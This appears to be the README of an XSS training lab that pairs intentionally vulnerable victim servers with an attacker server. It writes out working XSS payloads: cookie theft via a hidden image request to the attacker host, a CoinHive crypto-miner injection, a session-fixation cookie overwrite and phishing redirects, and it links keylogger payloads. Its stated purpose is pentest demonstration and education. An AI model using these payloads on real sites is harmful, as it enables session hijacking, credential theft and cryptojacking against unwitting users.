

# XSS Test Project

# Quick Start

`docker-compose up` in `docker` folder

## Entrypoints

- Victim Easy XSS Server: `http://localhost:1185/`
- Victim Session Server: `http://localhost:3000`
- Attacker: See Docker Logs

## Introduction

This project is intended to show and test various XSS Payloads.

### Target Audiences

#### Persuasion 

Often it is difficult to show what can be done with an XSS finding. For example if a pentester wants to persuade a customer of a finding.

This project can be used to persuade people more easily how dangerous a single XSS finding can be.

#### Reconstruction

You can use this project to setup rapidly a possible attack and see if it works and how it works.

#### Education

The project can be used to educate, for example new pentester or people interested in security, about XSS.

## Components

### Attacker Server

Folder `./attacker_server/`

This contains a dockerfile representing the attacker server.

### Integrated external Docker Images

#### Easy stored and reflected XSS

[Tiny server with XSS vulnerability](https://github.com/secf00tprint/victim_easy_xss_server).

#### Advanced XSS attack vectors

[A Server application vulnerable to XSS which has an integrated session management](https://github.com/secf00tprint/victim_session_xss_server). 

You can use it to check for session attacks.

# Payloads

## Payloads victim_easy_xss_server

### Check if XSS is possible

`<script>alert(1)</script>`

### Keylogger

#### Simple Keylogger / Stored XSS

Store in the list: [payload_code](https://github.com/secf00tprint/payloadtester_xss/blob/master/payloads/keylogger.js)

If you now goto the list and enter keys they will be send to attacker_server.

### Run JavaScript in Background

#### Pop-Under

We create a pop-under where our javascript hook lives. 

Following payload works on the listed browsers if you allow popups for the side:

- Google Chrome 65.0.3325.181
- Firefox 59.0.2
- Safari 11.0.3

[payload_code](https://github.com/secf00tprint/payloadtester_xss/blob/master/payloads/popunder.js)

#### Crypto-Miner

Start Crypto-Miner in the Pop-Under:

Sign up an account on [CoinHive](https://coinhive.com/)

Payload (change key to your Public Key from CoinHive). 

```
<script>
	var imported = document.createElement('script');
	imported.src = 'https://coinhive.com/lib/coinhive.min.js';
	document.head.appendChild(imported);
	imported.onload = function()
    {
    	var miner = new CoinHive.Anonymous('YOUR SITE KEY (public)');
		miner.start();
    }
</script>
```

On CoinHive check if pending payments are coming in:



To run miner in pop-under use the following snippet. Change key in attacker server [html file](./docker/attacker_server/serverfiles/coins/miner.html) to your public key: 

[payload_code](https://github.com/secf00tprint/payloadtester_xss/blob/master/payloads/popunder_cryptominer.js)

### Run JavaScript from Attacker-Server

We can use Cross-Messaging (see e.g. [1](https://javascript.info/cross-window-communication) or [2](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) to communicate with our xss-hooked application (and to circumvent Same-Origin-Policy).

e.g. (not tested, templates)

Attacker-Server:

doSomething.js:

```
function post(msg) {
	var msg = "Do something"; // Can be string or numeric
	parent.postMessage(msg, '*');
	post();
}
```

In XSS'ed Page:

```<script>
function listener(event) {
	if (event.origin != 'https://myotherdomain.com') {
		return
	}
	var info = event.data;
	DoSomething(info);
}
</script>

// Set up event handler wenn parent page loads

if (window.addEventListener) {
	addEventListener("message", listener, false)
} else {
	attachEvent("onmessage", listener);
}
```

## Payloads victim_session_xss_server

### Check for session fixation

Simple check to verify XSS can manipulate sessions.

Goto `http://localhost:3000/`

Login with: `admin` / `istrator`

enter

```
<script>
   document.cookie='connect.sid=12345;path=/'
</script>
```

if you are logged out, XSS is possible.

## Session Hijacking / Get Cookies

### By Hidden Image

```
<script>
 img = document.createElement("img");
 img.src = "http://localhost/"+document.cookie;
 img.style.display = "none";
 x = document.getElementsByTagName("BODY")[0];
 x.appendChild(img);
</script>
```
Goto other Browser:

e.g. Firefox:

- Web-Store
- Cookies
- Setup Path and value
- Call [http://localhost:3000/sessionxss/protected](http://localhost:3000/sessionxss/protected)

### Phishing

The attacker runs the code located in [attacker server loginpage directory](https://github.com/secf00tprint/payloadtester_xss/tree/master/attacker_server/serverfiles/loginpage). 

To do phishing, a stored XSS is placed which redirects the entered credentials either

- by manipulating the DOM (no URL change in browser, see next section) or
- by redirecting to attacker server, using a mocked HTTP login page (recreated from the original) 

Both ways send the entered data by POST to [login.php](https://github.com/secf00tprint/payloadtester_xss/tree/master/attacker_server/serverfiles/loginpage/login.php) located on the attacker server. 
[login.php](https://github.com/secf00tprint/payloadtester_xss/tree/master/attacker_server/serverfiles/loginpage/login.php) uses the received data to fill hidden fields and to do another POST to the original login form.

Next section see the first attack:

#### JavaScript DOM Manipulation and Redirect

Payload:

[payload_code](https://github.com/secf00tprint/payloadtester_xss/blob/master/payloads/phishing_dommanipulation.js)

#### Redirect to Victim Server 

More obvious because of URL change:

```
<script>
window.location.replace("http://localhost/loginpage/LoginPage.htm");
</script>
```

# Configuration in more Detail

## Docker 

### Single Docker Builds

#### Victim Session Server

- see [GitHub Repo Chapter Docker](https://github.com/secf00tprint/victim_session_xss_server#run-from-docker)

#### Easy XSS Server

- see [GitHub Repo Chapter Docker](https://github.com/secf00tprint/victim_easy_xss_server#run-from-docker)

#### Attacker Server

- goto `attacker_server` folder
- run `docker build -t attacker_server .`
- run `docker run --rm -ti -p 127.0.0.1:80:80 attacker_server .`

## Just Code 

### Attacker Server

- goto `attacker_server/serverfiles`

### Victim Session Server

see [Github Repo Chapter Code](https://github.com/secf00tprint/victim_session_xss_server#run-from-code)

### Victim Easy XSS Server

- see [GitHub Repo Chapter Code](https://github.com/secf00tprint/victim_easy_xss_server#run-from-code)

# Todo / Roadmap

- [-] Portscan from Pop-Under
- [-] BeEF 
- [-] Permanent CSRF Attacks against other Website through XSS
- [-] JavaScript Modification Framework, change XSSed site dynamically 
- [-] Enumerate Client Information
- [-] use Client Information to list exploits
- [-] Heap Exploits
- [-] Spectre


